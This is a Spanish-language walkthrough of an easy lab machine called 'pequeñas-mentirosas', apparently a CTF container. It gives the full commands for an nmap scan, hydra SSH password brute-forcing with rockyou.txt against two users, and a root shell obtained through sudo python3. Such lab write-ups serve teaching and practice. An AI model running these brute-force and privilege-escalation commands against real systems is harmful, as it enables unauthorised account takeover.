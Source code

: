 # Máquina pequeñas-mentirosas

--- 

Dificultad -> Fácil

--- 

Primero realizo un nmpa para ver puertos y servicios

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Encuentro los puertos 22 y 80 asi que me conecto desde el navegador

![](assets/2025-10-28-20-08-09-image.png)

Me encuentro con una web con un unico texto diciendo que encuentre la clave para A

Solo se me ocurre hacer un ataque de fuerza bruta por ssh con el usuario a con hydra

```shell
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -I
```

![](assets/2025-10-28-20-10-20-image.png)

Encuentro las credenciales del usuario a, asi que me conecto por ssh

Una vez dentro, busco binarios y archivos con permiso SUID pero no encuentro nada vulnerable para escalar permisos

![](assets/2025-10-28-20-14-10-image.png)

Buscando un poco veo que existe otro usuario llamado spencer

![](assets/2025-10-28-20-14-39-image.png)

Así que realizo otro ataque de fuerza bruta con hydra con el usuario spencer

```shell
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -I
```

![](assets/2025-10-28-20-16-01-image.png)

Nuevamente me encuentras las credenciales de spencer asi que me conecto por ssh y busco binarios que pueda ejecutar como root

![](assets/2025-10-28-20-17-02-image.png)

Veo que puedo ejecutar python3 como root asi que voy a [GTFOBins](https://gtfobins.github.io/) y simplemente ejecuto y acabamos siendo root

```shell
sudo python3 -c 'import os; os.system("/bin/sh")'
```

![](assets/2025-10-28-20-18-41-image.png)
